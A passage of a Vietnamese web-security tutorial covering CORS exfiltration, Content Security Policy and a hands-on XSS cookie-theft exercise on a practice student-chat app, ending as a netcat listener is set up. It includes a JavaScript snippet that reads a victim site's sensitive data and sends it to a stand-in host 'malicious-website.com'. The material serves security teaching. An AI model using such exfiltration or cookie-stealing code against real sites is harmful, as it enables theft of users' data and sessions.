   ```javascript
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
    req.send();
    
    function reqListener() {
        location='//malicious-website.com/log?key='+this.responseText;
    };                                                          
  ```
  
     \+  Website `malicious-website.com` sẽ gửi request đến `vulnerable-website.com`, bên trong request này có chứa hàm **reqListener**, hàm này sẽ thực thi khi vào được tài nguyên là **sensitive-victim-data** của `vulnerable-website.com`, đọc toàn bộ nội dung tại đó và trả về lại `malicious-website.com` thông qua GET parameter **key**.

#### 3) Content Security Policy:

- **Content Security Policy** là một reponse header cho phép admin của một website kiểm soát các tài nguyên mà user agent (thường để chỉ browser) được phép load. Từ đó ngăn chặn được các cuộc tấn công chèn script từ các origin khác như **XSS**.

- Syntax: `Content-Security-Policy: <policy-directive>; <policy-directive>`

  trong đó, `<policy-directive>` bao gồm: `<directive>` và `<value>`. Chi tiết về các directive xem tại  [đây](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy).

- Kịch bản tấn công một trang web có **Content Security Policy** yếu:

  https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/diceCTF_2_2021/Web%20Exploitation/Babier%20CSP.md.

### II. Thực Hành:

#### 1) Source code:

https://github.com/antoinenguyen-09/DVWA-From-Antoine/tree/main/XSS

#### 2) Exploit:

**a) Chiếm cookie:**

- Mỗi khi login thì trang web của chúng ta sẽ tạo ra một session cùng với một cookie tên "login". Ví dụ khi ta đăng nhập vào user **messi**:

  ![image](https://user-images.githubusercontent.com/61876488/119174179-783a2480-ba92-11eb-936d-f78f16db7b84.png)

- Vào **List of student** >> Click vào **1 ô id của 1 student bất kì** >> Chọn **Chat with this student** để gửi tin nhắn cho student đó rồi nhập payload vào:

  ![image](https://user-images.githubusercontent.com/61876488/119175870-943ec580-ba94-11eb-82dd-750631641a86.png)

​    Đồng thời ở host bên kia (có địa chỉ ip là 192.168.1.248), bật netcat để listen: 

![image](https://user-images.githubusercontent.com/61876488/119176368-39f23480-ba95-11eb-9b12-8b84e1a71173.png)
